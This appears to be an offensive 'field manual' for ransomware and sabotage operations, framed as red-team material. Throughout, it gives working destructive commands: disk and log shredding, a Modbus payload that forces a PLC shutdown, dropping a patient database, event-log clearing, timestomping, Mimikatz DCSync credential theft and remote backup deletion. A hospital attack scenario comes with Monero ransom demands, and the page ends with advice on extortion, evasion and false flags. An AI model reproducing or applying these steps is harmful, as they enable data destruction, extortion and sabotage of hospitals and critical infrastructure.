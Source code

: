 # Field manual: Operation Nutcracker (2025 Edition)

*When you want to leave more than just shells behind – leave chaos.*

## Operational objectives

* Sabotage – Render systems unusable for geopolitical or competitive advantage
* Extortion – Maximize payout pressure through multi-vector attacks
* Plausible Deniability – Burn the house down without leaving fingerprints

## Attack arsenal

### AI-Optimized ransomware (LockBit 5.0 Protocol)

Adaptive encryption engine:

```python
# Pseudocode for ML-driven target selection
if file_extension in ('.sql','.vmx','.backup'):
    encrypt(file)  # Prioritizes DBs/VMs/backups
else:
    bypass(file)   # Skips non-critical files to accelerate encryption
```

Triple extortion playbook:

* Encrypt primary storage
* [exfiltrate](exfiltration.md) to private Tor-based leak site
* Threaten volumetric DDoS during negotiations

### Hybrid Wiper-Ransomware (Blackout Worm variants)

Execution Flow:

```bash
# Phase 1: Backup Destruction (Linux)
shred -n 10 -u /dev/sdX  # DoD 7-pass equivalent

# Phase 2: Ransomware Deployment (Windows)
.\MedusaLocker.exe --extension .chernobyl --note README.html
```

Use `ionice -c 3` to reduce disk I/O visibility during shredding.

### Critical infrastructure sabotage

SCADA/ICS killswitch:

```python
# Modbus TCP payload to override PLC registers
payload = b'\x00\x01\x00\x00\x00\x06\x01\x06\x00\x64\xFF\xFF'  # Force emergency shutdown
```

Database annihilation:

```sql
    DROP DATABASE patient_records WITH NORECOVERY;  # SQL Server persistent damage
```

### Forensic countermeasures

Log Obliteration Kit:

```powershell
# Windows
Clear-EventLog -LogName Security,Application,System
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\WMI\Autologger -Name Start -Value 0

# Linux
find /var/log -type f -exec shred -n 3 {} \;
```

Timestomping:

```bash
touch -r /etc/passwd malicious_file  # Inherits timestamps from legitimate file
```

## Red team exercise: "Hospital Zero" (2025)

**Phase 1: Infiltration**

* Delivery: Malicious ISO masquerading as "Patient_Scan_2987.iso"
* Exploit: CLFS zero-day (CVE-2025-29824) → NT AUTHORITY\SYSTEM

**Phase 2: Domain dominance**

```powershell
# Credential Harvesting
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:corp.hospital /user:Administrator"'

# Lateral Movement
Enter-PSSession -ComputerName DC01 -Credential $creds -Authentication Negotiate
```

**Phase 3: Surgical strikes**

```bash
# Backup Neutralization
ssh backupadmin@veeam01 "sudo rm -rf /backups/archive/* --no-preserve-root"

# Ransomware Deployment
.\locker.exe --config config.json --timeout 900  # 15-minute encryption sprint
```

***Phase 4: Extortion***

Negotiation channels:

* Primary: Tox Protocol (qTox client)
* Fallback: ProtonMail dead-drop

Payment demand:

* 500 XMR (~$5M) for decryptor
* +200 XMR to suppress 42GB patient data leak

## Blue Team counter-tactics (For OpSec testing)

| Tactic	                | Red Team Evasion Method                         |
|------------------------|-------------------------------------------------|
| Air-gapped backups	    | Veeam credential theft → Remote backup deletion |
| EDR behavioural alerts	 | Process hollowing into `svchost.exe`            |
| Zero Trust policies	   | ADCS relay attacks to forge Kerberos tickets    |

## Lessons from the field

*"In 2025, the most effective attacks look like accidents until it's too late. Your ransomware should be the 
second-worst thing in the victim's timeline."*

## Operational checklist

- ✅ Test wiper modules in QEMU sandboxes before deployment
- ✅ Pre-negotiate XMR escrow channels with dark web brokers
- ✅ Embed false [flags](flag.md) 